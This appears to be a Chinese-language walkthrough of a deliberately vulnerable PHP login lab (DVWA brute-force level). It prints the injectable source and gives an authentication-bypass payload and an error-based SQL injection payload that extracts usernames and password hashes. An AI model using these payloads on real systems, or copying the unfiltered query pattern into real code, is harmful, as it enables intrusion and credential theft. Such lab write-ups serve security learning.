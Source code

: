 ```php
if( isset( $_GET[ 'Login' ] ) ) {
    # 获取用户名和密码
    $user = $_GET[ 'username' ];
    $pass = $_GET[ 'password' ];
    $pass = md5( $pass );

    # 查询验证用户名和密码
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    if( $result && mysql_num_rows( $result ) == 1 ) {
      # 输出头像和用户名
      $avatar = mysql_result( $result, 0, "avatar" );
      echo "<p>Welcome to the password protected area {$user}</p>";
    }
    else {
        登录失败
    }
    mysql_close();
}
```

源码中暴露的问题如下：

1. GET 登录不够安全，一般使用 POST 方式进行登录
2. 用户名和密码都没有进行过滤

这一关是考察爆破的，所以不需要花里胡哨的测试 SQL 注入之类的漏洞了，爆破的话可以自己写 Python 脚本也可以直接使用 Burpsuite 进行爆破，因为这个属于基本功，国光我这里写的话就有点浪费时间了，溜了溜了。

赶紧跑了回来，做到 Medium 发现依然可以爆破，只是增加了 SQL 过滤函数？？？ 那难道这一题暗示我们进行 SQL 注入吗？黑人问号？？？ 既然这样那就顺便给这题注入了吧。

### 万能密码

payload

```payload
?username=admin'--+&password=111&Login=Login#
```

### 联合查询

并不可以，因为代码中没有输出查询信息，联合注入的话 tan90°

### 报错注入

mysql_error() 表明可以进行报错注入，直接丢 payload 吧:

payload

```payload
?username=admin'+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(user,password)+AS+CHAR),0x7e))+FROM+users+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+&password=111&Login=Login#
```

